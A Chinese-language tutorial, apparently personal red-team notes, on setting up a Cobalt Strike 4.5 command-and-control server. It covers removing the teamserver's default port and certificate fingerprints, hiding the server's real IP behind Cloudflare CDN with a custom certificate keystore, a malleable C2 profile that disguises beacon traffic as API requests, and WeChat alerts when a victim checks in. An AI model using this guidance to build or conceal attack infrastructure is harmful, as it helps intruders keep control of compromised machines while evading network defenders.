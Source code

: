 # 0x01 CS服务端搭建
将CS4.5安装包上传到VPS上，执行如下命令即可启动，需要注意，IP地址不能是0.0.0.0
```
./teamserver 192.168.0.125 password
```

# 0x02 CS服务端特征去除
### 01 修改teamserver默认端口
打开文件teamserver，将默认的50050端口改为其他端口
### 02 修改teamserver默认指纹信息
正常情况使用nmap扫描时可看到此特征，如下图  
![image](./pic/02.png)  
阅读代码可知，当没有证书的时候会创建带有cobalt strike信息的证书，有证书的话，则会使用证书中的信息，下面我们会创建自己的证书，就不需要修改teamserver中的cobalt strike信息

# 0x03 CS隐藏真实IP
思路：基于CDN隐藏真实IP
### 步骤1 注册一个域名
有的文章提到使用www.freenom.com平台进行注册，我这边测试从freenom注册免费域名挺费劲的，试了几次都没成功，建议从namesilo购买一个域名，选一个不那么大众化的，每年0.99$
### 步骤2 cdn平台配置dns解析
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台配置DNS解析”部分：https://xz.aliyun.com/t/11099#toc-2
```
添加DNS记录时如下
Name：ybdt，IPv4 address：服务器 IP
```
### 步骤3 CDN平台创建证书
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台创建证书”部分：https://xz.aliyun.com/t/11099#toc-3
```
要注意，创建时要保存证书和私钥，不然后面没法再看到私钥
```
### 步骤4 CDN平台禁用缓存
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台禁用缓存”部分：https://xz.aliyun.com/t/11099#toc-4
### 步骤5 生成CS证书
进入vps中的cs文件夹中，创建两个文件：server.pem（文件中贴入上面的源证书）和server.key（文件中贴入上面的私钥），然后生成新的cobaltstrike证书，如果原先的cobaltstrike文件夹内有默认的.store证书，需要先删除掉默认的
```
openssl pkcs12 -export -in server.pem -inkey server.key -out cfcert.p12 -name cloudflare_cert -passout pass:123456

这里是利用pem和key文件创建新的cert证书，这里的pass密码需要修改，改为复杂的密码，不要使用123456
```
借助生成的cert证书，通过以下命令生成store证书
```
keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore cfcert.store -srckeystore cfcert.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias cloudflare_cert
```
### 步骤6 创建profile文件
```
set sleeptime "3000";

https-certificate {
    set keystore "cfcert.store";
    set password "123456";
}

http-stager {
    set uri_x86 "/api/1";
    set uri_x64 "/api/2";
    client {
        header "Host" "ybdt.test.com";}
    server {
        output{
            print;
        }
    }
}

http-get {
    set uri "/api/3";
    client {
        header "Host" "ybdt.test.com";
        metadata {
            base64;
            header "Cookie";
        }
    }
    server {
        output {
            print;
        }
    }
}

http-post {
    set uri "/api/4";
    client {
        header "Host" "ybdt.test.com";
        id {
            uri-append;
        }
        output {
            print;
        }
    }
    server {
        output {
            print;
        }
    }
}

```
### 步骤7 创建监听器
此处参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”启动teamserver”部分：https://xz.aliyun.com/t/11099#toc-9
```
需要注意，CloudFlare CDN免费支持的端口如下
http:
80、8080、8880、2052、2082、2086、2095
https:
443、2053、2083、2087、2096、8443
```
### 步骤8 上线测试
上线后，我这边wireshark抓包，抓到的ip查询后发现是微软云（可能是cloudflare的节点在微软云上，或其他原因），如下图  
![image](./pic/01.png)
```
注意，vps的防火墙要打开，我就在这卡了一会
```

# 0x04 CS上线微信提醒
此处参见文章(https://xz.aliyun.com/t/10698)[https://xz.aliyun.com/t/10698]中的”微信单人提醒”部分：https://xz.aliyun.com/t/11099#toc-9

vps会提示需要转发x11请求，解决办法：启动时需要加一个参数-Djava.awt.headless=true，修改后如下
```
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Djava.awt.headless=true -classpath ./cobaltstrike.jar aggressor.headless.Start $*
```
注释掉一处安全提醒
```
This can be done by editing the accessibility.properties file for OpenJDK:
sudo vim /etc/java-8-openjdk/accessibility.properties
Comment out the following line:
assistive_technologies=org.GNOME.Accessibility.AtkWrapper
```

# 参考链接
```
https://xz.aliyun.com/t/11099
https://xz.aliyun.com/t/10698
https://github.com/microsoft/vscode-arduino/issues/644
```